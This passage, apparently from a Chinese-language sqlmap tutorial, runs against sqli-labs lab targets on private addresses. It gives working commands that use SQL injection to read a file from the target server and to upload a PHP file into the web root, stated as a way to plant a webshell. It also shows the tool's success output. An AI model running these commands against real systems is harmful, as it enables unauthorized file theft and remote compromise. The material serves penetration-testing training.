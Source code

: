 ```python
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-read "c:/test.txt" #读取目标服务器C盘下的test.txt文件
```

[![img](https://p5.ssl.qhimg.com/t01b427170c4f0ab056.png)](https://p5.ssl.qhimg.com/t01b427170c4f0ab056.png)

可以看到，文件读取成功了，并且保存成了 /root/.sqlmap/output/192.168.10.1/files/c__test.txt 文件

### [![img](https://p5.ssl.qhimg.com/t013ae8d3a38bbf4e30.png)](https://p5.ssl.qhimg.com/t013ae8d3a38bbf4e30.png)

### 上传文件到数据库服务器中(—file-write —file-dest)

当数据库为MySQL、Postgre SQL或者Sql Server(通过powershell写入)，并且当前用户有权限向任意目录写文件的时候，可以上传文件到数据库服务器。文件可以是文本，也可以是二进制文件。

所以利用上传文件，我们可以上传一句话木马或者上传shell上去。

前提是我们知道网络的绝对路径

```python
python2 sqlmap.py -u http://192.168.10.130/sqli-labs/Less-2/?id=1 --file-write C:\Users\mi\Desktop\1.php --file-dest "C:\phpStudy\PHPTutorial\WWW\2.php"  #将本地的C:\Users\mi\Desktop\1.php文件上传到目标服务器C:\phpStudy\PHPTutorial\WWW\2.php
```

[![img](https://p2.ssl.qhimg.com/t01d920ad318047b01b.png)](https://p2.ssl.qhimg.com/t01d920ad318047b01b.png)

这里会问我们是否想验证上传成功，我们选择 y 的话，他就会读取该文件的大小，并且和本地的文件大小做比较，只要大于等于本地文件大小即说明上传功能了

[![img](https://p4.ssl.qhimg.com/t01b2207ac0c22f171d.png)](https://p4.ssl.qhimg.com/t01b2207ac0c22f171d.png)

[![img](https://p1.ssl.qhimg.com/t01ec317729423cc757.png)](https://p1.ssl.qhimg.com/t01ec317729423cc757.png)

如果你想和我一起讨论的话，那就加入我的知识星球吧！